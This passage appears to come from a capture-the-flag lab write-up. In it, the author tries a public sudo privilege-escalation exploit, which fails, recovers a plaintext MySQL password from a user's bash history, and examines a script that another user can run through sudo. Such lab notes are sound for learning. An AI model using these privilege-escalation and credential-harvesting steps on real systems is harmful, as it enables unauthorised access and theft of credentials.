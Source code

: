 ```
# searchsploit sudo 1.8
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
--SNIP--
sudo 1.8.0 to 1.9.12p1 - Privilege Escalation               | linux/local/51217.sh
--SNIP--
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Not working as expected

```
$ chmod +x 51217.sh
lucien@dreaming:/dev/shm$ ls
51217.sh  linpeas.log  linpeas.sh
lucien@dreaming:/dev/shm$ ./51217.sh
> It doesn't seem that this user can run sudoedit as root
Do you want to proceed anyway? (y/N): y
lucien@dreaming:/dev/shm$
```


in `lucien/.bash_history`

```
--SNIP--
mysql -u lucien -plucien42DBPASSWORD
--SNIP--
```

```
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician
```

/home/death/getDreams.py isn't readable by lucien,
but /opt/getDreams.py is readable

```
lucien@dreaming:~$ cat /opt/getDreams.py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )
```